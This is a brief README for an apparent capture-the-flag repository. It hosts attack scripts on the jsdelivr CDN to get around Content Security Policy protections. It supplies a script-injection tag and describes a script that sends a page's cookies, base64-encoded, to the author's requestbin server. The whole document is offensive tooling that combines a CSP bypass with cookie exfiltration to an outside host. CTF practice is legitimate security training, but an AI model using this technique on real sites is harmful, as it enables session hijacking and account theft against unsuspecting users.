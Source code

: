 # ctf-jsdelivr-repo
Repository for delivering script files through jsdelivr in order to bypass CSP restrictions

To run a script, use the following html element:  
`<script src='https://cdn.jsdelivr.net/gh/Victor4X/ctf-jsdelivr-repo/{script_file}'>`

## Scripts:
`requestbin-redirect.js` :  
Redirect the window to `http://requestbin.victorroer.com?{btoa(document.cookie)}` (only useful for me)
